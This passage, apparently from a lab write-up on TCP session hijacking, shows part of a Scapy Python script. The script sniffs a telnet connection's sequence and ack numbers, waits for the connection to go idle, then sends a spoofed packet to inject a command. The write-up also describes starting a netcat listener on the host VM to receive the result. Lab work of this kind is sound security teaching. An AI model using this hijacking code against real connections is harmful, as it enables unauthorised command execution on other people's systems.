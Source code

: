             send(pkt, verbose=0)
            done = True
            print("[+] Hijack packet sent. Exiting.")
            exit(0)

        def process_packet(pkt):
            """Callback function to update state with each sniffed packet."""
            global sequenceNumber, ackNumber, sourcePort, lastPacketTime
            # Check if the packet has a TCP layer
            if TCP in pkt:
                lastPacketTime = time.time()
                sequenceNumber = pkt[TCP].seq
                ackNumber = pkt[TCP].ack
                sourcePort = pkt[TCP].sport
                print(f"[*] Packet sniffed. Seq: {sequenceNumber}, Ack: {ackNumber}, Port: {sourcePort}")

        def check_for_hijack():
            """Continuously checks if the connection has timed out."""
            global lastPacketTime
            while True:
                # timeout has been exceeded and we did not see any packets
                if lastPacketTime is not None and (time.time() - lastPacketTime > timeout):
                    hijackConnection()
                    break 
                time.sleep(1)

        # Start packet sniffing in a separate thread
        # The sniff function will call process_packet for every TCP packet it sees
        print("[*] Starting packet sniffer in the background...")
        sniff_thread = threading.Thread(target=lambda: sniff(iface='br-82f1d76314d9', filter='tcp', prn=process_packet))
        sniff_thread.daemon = True # Allows the main program to exit even if this thread is running
        sniff_thread.start()

        # Check for the hijack opportunity
        if not done:
            print("[*] Monitoring for idle connection...")
            check_for_hijack()
        ```
- we start the netcat listener on host VM on port 9090 using `nc -l -p 9090`
- Then we run the python script `sudo python3 auto_tcp_hijack.py` to sniff and spoof the TCP packet to inject the command into the telnet session